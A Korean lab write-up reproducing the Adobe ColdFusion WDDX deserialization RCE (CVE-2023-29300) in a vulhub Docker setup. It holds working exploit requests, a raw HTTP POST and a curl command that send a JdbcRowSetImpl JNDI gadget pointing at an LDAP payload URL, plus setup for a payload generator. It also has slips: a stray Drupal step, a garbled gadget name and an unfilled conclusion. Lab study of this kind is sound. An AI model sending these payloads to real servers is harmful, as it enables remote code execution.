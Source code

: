 # Adobe ColdFusion XML 역직렬화로 인한 RCE (CVE-2023-29300)
| WHS 3기 이유진

## 개요
Adobe ColdFusion은 JJ Allaire가 1995년에 만든 상용 고속 웹 애플리케이션 개발 컴퓨팅 플랫폼이다.
Adobe ColdFusion 2018 업데이트 16(및 이전 버전), 2021 업데이트 6(및 이전 버전) 및 2023.0.0.330468(및 이전 버전)은 신뢰할 수 없는 데이터의 역직렬화 취약점의 영향을 받습니다. 공격자는 임의의 세터 함수를 호출하여 임의의 명령을 실행할 수 있다.

## 환경 구축
docker compose up -d 를 실행하여 테스트 환경을 실행
your-ip:8000 에 접속하여 drupal 설치

### docker-compose.yml
```yml
services:
  coldfusion:
    image: vulhub/coldfusion:2018.0.15
    ports:
      - "8500:8500"
      - "5005:5005"
    environment:
      - password=vulhub
      - acceptEULA=YES
```

### 테스트 환경 실행
```
docker compose up -d
```

### `http://localhost:8500/` 에 접속한 page 화면

![page](./page.png)

### `http://your-ip:8500/CFIDE/administrator/index.cfm` 에 접속하여 `vulhub`으로 로그인
![page2](./page2.png)
you can install the Adobe ColdFusion successfully.

### java Chain 설치하기
```
git clone https://github.com/vulhub/java-chains
cd java-chains

 docker run -d \
  --name java-chains \
  --restart=always \
  -p 8011:8011 \
  -p 58080:58080 \
  -p 50389:50389 \
  -p 50388:50388 \
  -p 3308:3308 \
  -p 13999:13999 \
  -p 50000:50000 \
  -p 11527:11527 \
  -e CHAINS_AUTH=true \
  -e CHAINS_PASS= \
  javachains/javachains:latest

  docker logs java-chains | grep -i password # 비밀번호 확인하기
```
![javaChain](./javaChain.png)
http://localhost:8011/ 로 java chain 사용 가능 !
실행 명령어를 치고 `generate`를 누르면 LDAP URL 즉, payload url이 생성이된다.
- ex) `ldap://127.0.0.1:50389/f29660`

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 270
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='Ecom.sun.rowset.JdbcRowSetImplE'><var name='dataSourceName'><string>ldap://127.0.0.1:50389/597b9f</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```



## PoC 
ColdFusion 서버에서 임의 코드를 실행할 수 있는 유효한 가젯을 찾는다.
- 가장 일반적인 가젯은 com.sun.rowset.JdbcRowSetImplJNDI 주입을 사용하여 명령을 실행

| LDAP 연결에서 문제가 있어 여러가지 시도를 해봤습니다.
```
curl -X POST "http://127.0.0.1:8500/CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='com.sun.rowset.JdbcRowSetImpl'><var name='dataSourceName'><string>ldap://127.0.0.1:50389/597b9f</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>"
```
---
marshalsec LDAP 리스너로 세팅도 가능하다.




## 정리
~한 취약점이다. ~한 조치가 필요하다.

## 출처
https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300
